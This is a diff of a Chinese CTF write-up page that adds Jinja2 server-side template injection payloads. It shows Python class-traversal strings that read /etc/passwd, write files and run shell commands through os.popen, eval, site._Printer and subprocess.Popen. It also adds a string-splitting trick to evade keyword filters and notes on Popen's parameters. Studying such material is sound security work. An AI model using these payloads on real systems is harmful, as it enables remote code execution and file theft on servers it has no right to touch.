

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, the part around one of its changes. Shown at 89% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
新增关于SSTI中Jinja2的payload

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -1109,32 +1109,45 @@ __builtins__      内建模块的引用，在任何地方都是可见的(包括
     [].__class__.__bases__[0]
     request.__class__.__mro__[1]
     #python3.7
-    ''.__。。。class__.__mro__[1]
+    ''.__class__.__mro__[1]
     {}.__class__.__bases__[0]
     ().__class__.__bases__[0]
     [].__class__.__bases__[0]
     request.__class__.__mro__[1]
 
     #python 2.7
-    #文件操作
-    #找到file类
+
+    ## 文件操作
+    # 找到file类
     [].__class__.__bases__[0].__subclasses__()[40]
-    #读文件
+    # 读文件
     [].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
-    #写文件
+    # 写文件
     [].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')
 
-    #命令执行
-    #os执行
+    ## 命令执行
+
+    # 下方payload中 '__init__'前面的都可以换成a,b,c...
+
+    # os执行
+
+    # 利用warnings.catch_warnings类
     # [].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
     # popen('id')中的id可换成其他Linux命令
     [].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
     #eval,impoer等全局函数
     #[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__ 下有eval，__import__等的全局函数，可以利用此来执行命令：
     [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
-    [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
+    # 字符拼接绕过关键字过滤
+    [].__class__.__bases__[0].__subclasses__()[59].__init__['__glo'+'bals__'].__builtins__.eval("__import__('os').popen('id').read()")
     [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
     [].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
+
+    # 利用site._Printer类
+    [].__class__.__base__.__subclasses__()[71].__init__['__glo'+'bals__']['os'].popen('ls').read()
+
+    # 利用subprocess.Popen
+    [].__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()
 
     #python3.7
     #命令执行
@@ -1145,4 +1158,30 @@ __builtins__      内建模块的引用，在任何地方都是可见的(包括
     "".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()
 ```
 
-Jinja2一些绕过WAF姿势
+**关于subprocess.Popen**
+
+subprocess这个模块是用来产生子进程，然后可以连接到这个子进程传入值并获得返回值
+
+subprocess中的Popen类，这个类中可以传入一些参数值
+
+```python
+class subprocess.Popen(
+ args,						# 字符串或者列表，表示要执行的命令如：
+    subprocess.Popen(["cat","test.txt"]) # 或
+    subprocess.Popen("cat test.txt", shell=True)
+ bufsize=0,					# 缓存大小，0无缓冲，1行缓冲
+ executable=None,			# 程序名，一般不用
+ stdin=None,				# 子进程标准输入
+ stdout=None,				# 输出
+ stderr=None,				# 错误
+ preexec_fn=None,
+ close_fds=False,
+ shell=False,				# 为ture的时候，unix下相当于args前添加了一个 /bin/sh -c
+   							#				window下相当于添加 cmd.exe /c
+ cwd=None,					# 设置工作目录
+ env=None,					# 设置环境变量
+ universal_newlines=False,	# 各种换行符统一处理成 \n
+ startupinfo=None,			# window下传递给createprocess的结构体
+ creationflags=0)			# window下传递create_new_console创建自己的控制台窗口
+```
+
````
Also changed, not shown: other parts of ctf-wp.md (+18 -0 lines).
